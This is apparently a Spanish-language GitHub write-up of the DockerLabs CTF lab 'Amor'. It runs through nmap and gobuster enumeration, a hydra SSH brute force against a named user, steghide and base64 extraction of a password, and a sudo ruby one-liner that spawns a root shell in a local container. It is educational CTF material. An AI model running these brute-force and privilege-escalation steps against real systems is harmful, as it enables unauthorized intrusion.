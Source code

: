 # 🐳 DockerLabs - actividad individual “Amor”

## 🎯 Objetivo del Laboratorio

El objetivo de este reto fue la aplicación de técnicas de ciberseguridad ofensiva mediante el despliegue de un entorno CTF utilizando **Docker**. Se resolvieron desafíos progresivos utilizando herramientas como **Nmap**, **Hydra**, **Gobuster**, **Steghide**, orientadas a la explotación y escalada de privilegios. En casi un ejercicio de capturar la bandera.

---

## 🛠 Herramientas y Funcionalidades

| Herramienta     | Descripción breve             | Funcionalidad principal               | Casos de uso típicos                  |
|------------------|-------------------------------|----------------------------------------|----------------------------------------|
| **Docker**       | Plataforma de contenedores    | Ejecutar entornos aislados             | Simular laboratorios CTF               |
| **Nmap**         | Escáner de red                | Detectar puertos y servicios activos   | Enumeración de red inicial             |
| **Netdiscover**  | Descubrimiento ARP            | Identificar IPs en red local           | Encontrar contenedores en Docker       |
| **Gobuster**     | Fuzzing HTTP                  | Enumerar rutas ocultas en servidores   | Detectar páginas sensibles             |
| **Hydra**        | Fuerza bruta de credenciales  | Automatizar ataques de login           | Descifrar contraseñas débiles          |
| **Steghide**     | Esteganografía                | Extraer datos ocultos en imágenes      | Forense digital                        |
| **SCP**          | Copia remota segura           | Transferencia de archivos vía SSH      | Extraer evidencia                      |
| **Base64**       | Codificación binaria a texto  | Decodificar cadenas ocultas            | Análisis de contraseñas                |

---

## 🧪 Ejercicio Práctico Paso a Paso

### 📦 Transferencia del reto a Kali

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

---

### 🐳 Instalación y despliegue del entorno con Docker

```bash
sudo apt update && sudo apt install docker.io -y
cd amor/
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```

---

### 🌐 Identificación de red

```bash
ip a
```

📌 Alternativas: `ifconfig`, `nmcli`

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

---

### 🔍 Escaneo con Nmap

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

📌 Alternativas:
```bash
nmap -T4 -A -v
nmap -O
nmap -sU
```

---

### 🧭 Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

📌 Flags útiles:
- `-x php,html` → Probar extensiones
- `-o resultado.txt` → Guardar salida
- `-s 200,204,301` → Filtrar por códigos válidos

---

### 🔐 Ataque por Fuerza Bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

📌 Variantes:
```bash
hydra -L users.txt -P rockyou.txt ssh://172.17.0.2
hydra -s 2222 ...
hydra -V ...
```

---

### 🧑‍💻 Conexión por SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /home/carlota/Desktop/fotos/vacaciones/
```

---

### 📤 Descarga de archivo sospechoso

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor/
```

---

### 🧬 Esteganografía con Steghide

```bash
steghide --extract -sf imagen.jpg
```

📌 Resultado: archivo oculto `secret.txt`.

---

### 🔓 Decodificación en Base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

---

### ⚡ Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 🔁 Diagrama de Flujo del Procedimiento

```mermaid
graph TD
A[Inicio] --> B[Transferencia vía SCP]
B --> C[Instalación Docker y despliegue]
C --> D[Identificación de red]
D --> E[Escaneo con Netdiscover y Nmap]
E --> F[Fuzzing con Gobuster]
F --> G[Análisis visual del sitio]
G --> H[Brute Force con Hydra]
H --> I[Acceso SSH con usuario encontrado]
I --> J[Descarga de imagen vía SCP]
J --> K[Análisis con Steghide]
K --> L[Decodificación Base64]
L --> M[Escalada a oscar]
M --> N[Root con Ruby]
N --> O[Fin / Flag encontrada]
```

---

## 🖼️ Imágenes

```markdown
![Resultado de Nmap](imagenes/nmap_resultado.png)
![Imagen descargada sospechosa](imagenes/imagen.jpg)
```

---

## 📚 Fuentes y Referencias

- [DockerLabs.es - Reto Amor](https://dockerlabs.es)
- [THC-Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Nmap.org](https://nmap.org/book/man.html)
- [Steghide en Kali](https://pkg.kali.org/pkg/steghide)
- [Gobuster - Herramienta oficial](https://github.com/OJ/gobuster)
- [GNU Base64 Manual](https://www.gnu.org/software/coreutils/manual/html_node/base64-invocation.html)

---

## ✅ Conclusiones

Este reto fue una excelente práctica ofensiva en un entorno controlado. Desde el despliegue del laboratorio hasta la explotación de servicios, análisis forense y escalada de privilegios, se aplicaron múltiples técnicas reales del hacking ético. La documentación presentada busca ser clara, técnica y replicable.
